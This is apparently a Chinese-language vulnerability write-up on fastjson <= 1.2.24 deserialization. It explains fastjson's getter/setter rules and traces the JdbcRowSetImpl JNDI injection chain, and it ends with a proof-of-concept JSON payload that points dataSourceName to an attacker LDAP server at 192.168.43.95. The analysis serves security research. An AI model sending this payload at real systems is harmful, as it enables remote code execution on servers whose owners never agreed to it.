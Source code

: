 ## 前言
影响版本：`fastjson <= 1.2.24`  
描述：fastjson 默认使用 `@type` 指定反序列化任意类，攻击者可以通过在 Java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。此漏洞开启了 fastjson 反序列化漏洞的大门，为安全研究人员提供了新的思路。

fastjson <= 1.2.24 存在两条利用链：

(1) jdbcRowSetImpl - JNDI注入

(2) TemplatesImpl

## fastjson的一些功能要点：
这里列举一些 fastjson 功能要点：

*   使用 `JSON.parse(jsonString)` 和 `JSON.parseObject(jsonString, Target.class)`，两者调用链一致，前者会在 jsonString 中解析字符串获取 `@type` 指定的类，后者则会直接使用参数中的 class。
*   fastjson 在创建一个类实例时会通过反射调用类中符合条件的 getter/setter 方法，
    *   其中 getter 方法需满足条件：
        *   方法名长于 4
        *   不是静态方法
        *   以 `get` 开头且第 4 位是大写字母
        *   方法不能有参数传入
        *   继承自 `Collection|Map|AtomicBoolean|AtomicInteger|AtomicLong`
        *   此属性没有 setter 方法；

    *   setter 方法需满足条件：
        *   方法名长于 4
        *   以 `set` 开头且第 4 位是大写字母
        *   非静态方法
        *   返回类型为 void 或当前类
        *   参数个数为 1 个。
            具体逻辑在 `com.alibaba.fastjson.util.JavaBeanInfo.build()` 中。

## jdbcRowSetImpl链：
万恶之源：com.sun.rowset.JdbcRowSetImpl#setAutoCommit

跟进 this.connect()方法：

<img width="556" alt="image" src="https://github.com/user-attachments/assets/fcdc10ab-c50e-47a4-8ddc-19ef983eba90" />

this.connect()方法中使用了 lookup()方法:

<img width="1069" alt="image" src="https://github.com/user-attachments/assets/c102876d-1049-4173-954f-700eba77ccbf" />

dataSourceName值可控，存在JNDI注入：

<img width="634" alt="image" src="https://github.com/user-attachments/assets/068f94ac-ab4a-47b9-b31c-0d459e936ea9" />

构造POC:

```
{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"ldap://192.168.43.95:8085/Command",
 "autoCommit":true
}
```
